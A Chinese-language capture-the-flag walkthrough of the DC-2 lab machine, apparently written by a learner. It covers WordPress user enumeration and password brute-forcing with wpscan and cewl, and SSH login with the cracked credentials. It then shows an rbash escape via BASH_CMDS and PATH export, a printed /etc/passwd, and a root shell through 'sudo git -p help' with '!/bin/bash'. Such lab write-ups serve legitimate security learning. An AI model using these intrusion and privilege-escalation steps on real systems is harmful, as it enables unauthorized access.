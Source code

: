 # DC2靶机实战

> 扫描端口

![image-20240916120903636](./assets/image-20240916120903636.png)

![image-20240916144153528](./assets/image-20240916144153528.png)

- 发现开了`80端口`和`7744端口`,优先看80端口

![image-20240916120950882](./assets/image-20240916120950882.png)

- 发现无法解析`域名`

> 添加到host

```cmd
//找到该路径下的hosts文件,添加 ip + 域名
C:/Windows/System32/drivers/etc/hosts
```

![image-20240916123403982](./assets/image-20240916123403982.png)

- 重新进入网页,获取第一个`flag`
- ![image-20240916123457883](./assets/image-20240916123457883.png)

> 爆破web目录

- 二话不说,直接爆破web路径

![image-20240916125059654](./assets/image-20240916125059654.png)

- 一个一个点进去看,发现有个`http://dc-2/wp-admin/install.php`会跳转到一个登录框`http://dc-2/wp-login.php`

![image-20240916125201414](./assets/image-20240916125201414.png)

> 爆破账号密码登录

```cmd
//枚举用户
 wpscan --url http://dc-2 --enumerate u
```

![image-20240916135832100](./assets/image-20240916135832100.png)

- 可能存在这三个用户(`tom`,`admin`,`jerry`),写入字典爆破看看

- ```cmd
  //使用该命令生成密码本
  cewl -o http://dc-2/
  ```

  ![image-20240916142801583](./assets/image-20240916142801583.png)

  ![image-20240916144327728](./assets/image-20240916144327728.png)

```cmd
//爆破出账户
jetty adipiscing
tom parturient
```

- 在`jerry`的`all page`找到了`flag2`

![image-20240916143747190](./assets/image-20240916143747190.png)

> 尝试爆破ssh(7744)

![image-20240916145548423](./assets/image-20240916145548423.png)

```cmd
//连接ssh
ssh tom@192.168.234.111
parturient	
```

![image-20240916145740808](./assets/image-20240916145740808.png)

- 发现`flag3.txt`但是没办法查看,有`rbash`限制

- 查看哪些`命令`可用
- ![image-20240916150145791](./assets/image-20240916150145791.png)

- 那么这里使用`vi flag3.txt`查看
- ![image-20240916151808109](./assets/image-20240916151808109.png)

- 这里特意区`百度`了一下(新手上路)

- 这句话是一个带有幽默感的双关语，结合了经典的卡通角色Tom和Jerry的名字以及一个常见的计算机命令的用法。

  - **Tom and Jerry** 是一个经典的动画片，其中Tom（猫）总是追逐Jerry（鼠标）。这是一个熟悉的卡通情节，Tom永远在追逐Jerry。

  - **su** 是 Unix/Linux 系统中的一个命令，用于切换用户身份（"su" 是 "substitute user" 的缩写）。通常用于在命令行中以另一用户的身份执行命令。

  在这句话中，"Perhaps he should su for all the stress he causes" 既可以理解为对Tom角色的幽默调侃，也有一种计算机方面的双关：

  1. **字面意义：** 这里的"su"可以被理解为“应该换成其他用户来应对所有的压力”，这是一个对Tom压力的幽默描述。

  2. **技术双关：** 在计算机领域，"su" 是一个命令，Tom在这里被戏称为“应该使用 `su` 命令`切换用户`”，即换成其他用户来处理他所面临的压力或任务。

  整体上，这句话利用了Tom和Jerry的幽默和技术术语的双关，增添了一种轻松和有趣的风格。

```bash
//查看用户信息
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
Debian-exim:x:104:109::/var/spool/exim4:/bin/false
messagebus:x:105:110::/var/run/dbus:/bin/false
statd:x:106:65534::/var/lib/nfs:/bin/false
sshd:x:107:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:108:114:MySQL Server,,,:/nonexistent:/bin/false
tom:x:1001:1001:Tom Cat,,,:/home/tom:/bin/rbash
jerry:x:1002:1002:Jerry Mouse,,,:/home/jerry:/bin/bash
"/etc/passwd" [readonly] 29 lines, 1547 characters
```

- 发现`jeryy`是存在的,只是需要`rbash 逃逸`登录(jerry:x:1002:1002:Jerry Mouse,,,:/home/jerry:/bin/bash)

> rabash 逃逸

```bash
tom@DC-2:~$ echo $PATH
/home/tom/usr/bin
tom@DC-2:~$ echo /home/tom/usr/bin
/home/tom/usr/bin
tom@DC-2:~$ echo /home/tom/usr/bin/*
/home/tom/usr/bin/less /home/tom/usr/bin/ls /home/tom/usr/bin/scp /home/tom/usr/bin/vi
tom@DC-2:~$ BASH_CMDS[a]=/bin/bash
tom@DC-2:~$ a
tom@DC-2:~$ /bin/bash
tom@DC-2:~$ export PATH=PATH:/sbin:/bin
tom@DC-2:~$ echo $PATH
PATH:/sbin:/bin
```

![image-20240916153202759](./assets/image-20240916153202759.png)

- 切换`用户`

![image-20240916153308653](./assets/image-20240916153308653.png)

- 查看`flag4.txt`
- ![image-20240916153419611](./assets/image-20240916153419611.png)

```bash
这段话是一个典型的计算机安全挑战或解谜活动中的提示信息。它带有一些俏皮和鼓励的语气，通常用来激励参与者继续努力完成任务。下面是对这段话的逐步解析：

1. "Good to see that you've made it this far - but you're not home yet."
   - 意思是你已经在这个任务中取得了一些进展，但还没有完成最终目标。这里的“home”指的是完成任务或达到目标。

2. "You still need to get the final flag (the only flag that really counts!!!)."
   - 你还需要获取最后一个“flag”。在安全挑战中，"flag" 通常指代一个特定的标志或密钥，证明你已经成功完成了某项任务或解谜。这个“flag”是任务中最重要的一个，意味着最终的胜利或成功。

3. "No hints here - you're on your own now. :-)"
   - 这句话告诉你，接下来的部分没有提示或帮助，你需要依靠自己的努力来完成剩下的任务。微笑符号表示这是一种友好的提醒，而不是一种压力。

4. "Go on - git outta here!!!!"
   - 这句有双重含义：
     - **字面意思：“git outta here”是“离开这里”的俚语，鼓励你去完成任务。
     - **技术双关: "git" 是一个流行的版本控制系统，这里可能是一个有意的双关用语，暗示你可能需要使用 `git` 相关的命令或技巧来解决问题。

总结来说，这段话是在激励你继续努力完成最后的任务，利用一些幽默和技术术语来增加趣味性。
```

![image-20240916153628105](./assets/image-20240916153628105.png)

```bash
sudo git -p help

!/bin/bash
```

- 到这里打开一个用户为`root`的shell

- 查找flag,`find / -name "*flag*"`

![image-20240916154112161](./assets/image-20240916154112161.png)